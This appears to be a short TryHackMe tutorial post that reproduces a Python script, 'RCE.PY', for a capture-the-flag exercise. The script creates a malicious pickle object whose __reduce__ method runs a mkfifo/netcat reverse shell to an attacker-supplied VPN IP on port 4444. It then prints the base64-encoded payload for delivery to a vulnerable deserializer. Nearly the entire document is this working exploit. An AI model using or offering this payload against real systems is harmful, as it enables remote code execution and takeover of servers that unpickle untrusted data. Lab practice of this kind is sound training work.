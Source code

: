 ```yaml
---
title: RCE.PY by Ben (CMNatic)
author: bakeery
date: 2021-01-03 00:00:00 +0000
categories: [tryhackme, Tutorial]
tags: [tryhackme python script]
toc: false

---
```

import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat YOUR_TRYHACKME_VPN_IP 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))